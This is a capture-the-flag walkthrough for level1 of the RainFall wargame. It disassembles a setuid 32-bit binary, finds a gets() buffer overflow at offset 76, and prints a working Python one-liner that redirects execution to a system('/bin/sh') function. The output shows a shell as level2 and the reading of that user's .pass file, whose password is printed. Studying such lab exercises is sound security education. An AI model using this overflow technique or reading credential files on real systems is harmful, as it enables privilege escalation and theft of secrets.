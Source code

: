 ### Walkthrough

Run file, to have more detail about the file

```console
level1@RainFall:~$ file level1
level1: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x099e580e4b9d2f1ea30ee82a22229942b231f2e0, not stripped
```

Running ls -l to check the permissions of the file

```console
level1@RainFall:~$ ls -l level1 
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

It's owner is level2, lets try to execute of shell inside, and get permissions of user level2

It's a 32bit executable, now we can use gdb

```asm
# disassemble main
   0x08048480 <+0>:	push   ebp
   0x08048481 <+1>:	mov    ebp,esp
   0x08048483 <+3>:	and    esp,0xfffffff0
   0x08048486 <+6>:	sub    esp,0x50
   0x08048489 <+9>:	lea    eax,[esp+0x10]
   0x0804848d <+13>:	mov    DWORD PTR [esp],eax
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret 
```
```asm
# disassemble run
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret   
```

With a dessassembler we can reverse engineer the executable  
C code interpretation is in `source.c`

We will use a Buffer overflow pattern generator to calculate where the programs segfault  
`https://wiremask.eu/tools/buffer-overflow-pattern-generator/`

Offset value is `76`

We will try to jump to function `run()`, which contains a `system("/bin/sh)`

Address of run function is `0x08048444`

Because of small/big endian we shall reverse it and write it in hexadecimal
`\x44\x84\x04\x08`

```console
level1@RainFall:~$ (python -c 'print ("A" * 76 + "\x44\x84\x04\x08")'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```
